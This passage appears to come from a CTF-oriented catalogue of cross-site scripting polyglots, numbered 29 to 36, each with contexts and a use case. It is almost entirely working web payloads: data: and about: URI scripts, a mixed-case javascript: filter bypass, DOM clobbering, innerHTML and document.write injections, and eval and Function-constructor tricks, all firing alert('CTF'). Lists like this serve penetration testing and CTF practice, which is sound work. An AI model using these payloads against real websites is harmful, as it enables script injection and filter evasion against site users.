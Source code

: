 29. **Data JavaScript URI**  
    ```
    data:text/javascript,alert('CTF')
    ```
    - **Contexts**: Data URLs, JavaScript.
    - **Use Case**: Tests JavaScript execution via data URI.

30. **About Protocol SVG**  
    ```
    about:<svg onload=alert('CTF')>
    ```
    - **Contexts**: HTML, SVG.
    - **Use Case**: Tests about: protocol handling (niche).

31. **Mixed Case Protocol**  
    ```
    JaVaScRiPt:alert('CTF')//<svg onload=alert('CTF')>
    ```
    - **Contexts**: JavaScript, HTML, SVG.
    - **Use Case**: Bypasses case-sensitive filters.

### DOM Clobbering Polyglots
32. **Name Clobbering**  
    ```
    <form id="alert"><input name="1" value="alert('CTF')">
    ```
    - **Contexts**: HTML, DOM.
    - **Use Case**: Tests DOM clobbering via form elements.

33. **InnerHTML Injection**  
    ```
    element.innerHTML='<img src=x onerror=alert("CTF")>'
    ```
    - **Contexts**: JavaScript, HTML, DOM.
    - **Use Case**: Tests DOM manipulation vulnerabilities.

34. **Document Write Polyglot**  
    ```
    document.write('<script>alert("CTF")</script>')
    ```
    - **Contexts**: JavaScript, HTML, DOM.
    - **Use Case**: Tests document.write injections.

35. **Eval Breakout**  
    ```
    eval('al'+'ert("CTF")')
    ```
    - **Contexts**: JavaScript, DOM.
    - **Use Case**: Tests eval-based code execution.

36. **Function Constructor**  
    ```
    Function('alert("CTF")')()
    ```
    - **Contexts**: JavaScript, DOM.
    - **Use Case**: Tests dynamic function creation.
